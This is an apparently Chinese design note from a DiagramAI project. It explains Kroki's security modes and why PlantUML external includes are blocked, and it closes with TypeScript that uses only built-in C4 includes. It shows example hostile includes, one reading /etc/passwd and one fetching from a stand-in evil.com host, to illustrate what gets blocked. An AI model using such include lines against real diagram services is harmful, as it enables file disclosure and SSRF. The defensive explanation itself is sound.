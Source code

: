 
### 发现 4: Kroki SECURE 模式的限制

**问题**: DiagramAI 默认使用 Kroki 公共服务或本地 Docker,都运行在 SECURE 模式

#### Kroki 安全模式详解

| 模式       | 文件系统  | 网络访问  | `!include <C4/...>` | `!include https://...` |
| ---------- | --------- | --------- | ------------------- | ---------------------- |
| **SECURE** | ❌ 禁止   | ❌ 禁止   | ✅ **允许** (内置)  | ❌ 阻止                |
| **SAFE**   | ⚠️ 白名单 | ⚠️ 白名单 | ✅ 允许             | ⚠️ 需配置              |
| **UNSAFE** | ✅ 允许   | ✅ 允许   | ✅ 允许             | ✅ 允许                |

#### SECURE 模式限制

1. **禁止 `!include` 外部文件**

   ```plantuml
   !include /etc/passwd        <-- ❌ 阻止
   !include file:///etc/hosts  <-- ❌ 阻止
   ```

2. **禁止 `!includeurl` 网络资源**

   ```plantuml
   !includeurl https://evil.com/exploit.puml  <-- ❌ 阻止
   !include https://raw.githubusercontent.com/...  <-- ❌ 阻止
   ```

3. **允许标准库**
   ```plantuml
   !include <C4/C4_Context>    <-- ✅ 允许 (内置库)
   !include <aws/common>       <-- ✅ 允许 (内置库)
   ```

#### 为什么这么设计?

**安全风险**:

- **文件泄露**: `!include /etc/passwd` 可能泄露服务器敏感文件
- **SSRF 攻击**: `!includeurl` 可探测内网服务
- **代码注入**: 恶意 URL 可能返回恶意 PlantUML 代码

**标准库例外**:

- 内置在 PlantUML JAR 中,无需外部访问
- 经过安全审计
- 版本随 PlantUML 更新

#### DiagramAI 应对策略

**策略 1: 永远使用标准库格式**

```typescript
const C4_INCLUDE_TEMPLATES = {
  context: "!include <C4/C4_Context>",
  container: "!include <C4/C4_Container>",
  component: "!include <C4/C4_Component>",
  deployment: "!include <C4/C4_Deployment>",
  dynamic: "!include <C4/C4_Dynamic>",
  sequence: "!include <C4/C4_Sequence>",
};

function getC4Include(diagramType: string): string {
  return C4_INCLUDE_TEMPLATES[diagramType] || C4_INCLUDE_TEMPLATES.context;
}
```
